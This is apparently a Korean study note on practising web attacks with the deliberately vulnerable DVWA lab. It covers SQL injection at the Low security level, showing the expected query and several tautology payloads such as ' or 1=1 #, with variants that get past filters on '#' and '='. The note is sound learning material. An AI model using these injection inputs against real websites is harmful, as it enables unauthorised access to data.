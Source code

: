 # DVMA

DVMA: Damn Vulnerable Web Application 의 약자.

웹 공격을 실습해 볼 수 있는 웹 서버. 다른 PC나 VMware에 설치하여 실습해보면 된다.

Security Level 을 설정하여 단계별로 실습해볼 수 있다. 처음에는 쉽게 설정해놓고 성공한다면 점차 Security Level을 높여서 연습해볼 수 있다. 단계: Low, Midium, High, Impossible

# SQL Injection

## Level: Low

![image-20220208111201009](../../assets/images/2022-02-08-web-secure/image-20220208111201009.png)

User ID에 자연수를 입력하여 Submit을 누르면 해당 사용자의 정보가 출력되는 간단한 페이지.

### 예상하는 sql 구문

SELECT * FROM ?? WHERE id = '';

### 공격 구문

#### 특수문자를 허용하는 경우

* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 1=1 #</span>';
* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 2>1 #</span>';
* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 1 #</span>';

#### 입력란에 '#'을 허용하지 않는 경우

* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 'a'='a</span>'; 

#### 입력란에 '='와 '#'을 허용하지 않는 경우

* SELECT * FROM ?? WHERE id = '<span style="color:red">' or 's'<'t</span>'; 
